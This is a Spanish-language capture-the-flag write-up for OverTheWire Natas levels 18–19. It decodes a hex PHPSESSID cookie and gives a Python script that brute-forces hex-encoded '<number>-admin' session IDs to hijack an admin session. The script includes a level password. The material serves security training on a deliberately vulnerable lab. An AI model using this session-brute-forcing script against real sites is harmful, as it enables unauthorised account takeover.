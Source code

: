 ```python

```
```console
[cucuxii@parrot]~[natas]$: python3 natas18.py                                                                                                             
[..../...] Probando con -> : ID 119
119
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
```
## Natas 19

Lo mismo que antes, pero ahora las PHPsessid no son numeros fuzzeables...
Me loguee con "natas19" de nombre y contrasela. Con el burpsuite, conseguí la cookie "PHPSESSID=3532302d6e617461733139"
Al haber numeros y letras, parece hexadecimal.

```console
[cucuxii@parrot]~[natas]$: echo "3532302d6e617461733139" | xxd -ps -r; echo
520-natas19
```
O sea un numero alatorio + "-usaurio"... Ahora tenemos que contruirlo en python, es decir hay que hacer por cada numero sumarle el usario y codificarlo
en hexadecimal. Tambien el usario debe ser "admin" para que de un hexadecimal correcto ya que en el anterior se mencionaba: ``` if($_REQUEST["username"] 
== "admin") ```
```console
[cucuxii@parrot]~[natas]$: python3 natas19.py                                                                                                             
[↘] Probando con -> : ID 281 --> {'PHPSESSID': '3238312d61646d696e'}
Cookie -> {'PHPSESSID': '3238312d61646d696e'}
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
```
```python
import requests
from pwn import *

url = 'http://natas19.natas.labs.overthewire.org'
data = { 'username':'admin', 'password':'admin123' }
badfrase = "You are logged in as a regular user"
p1 = log.progress("Probando con -> ")
for i in range(640):
        string = '-admin'
        hex = f'{i}{string}'.encode('utf-8').hex()
        cookies = {'PHPSESSID' : str(hex)}
        p1.status(f"ID {i} --> {cookies}")
        req = requests.post(url, auth=('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'), data=data, cookies=cookies)
        if badfrase not in req.text:
                print(f"Cookie -> {cookies}")
                print(req.text)
                break
```






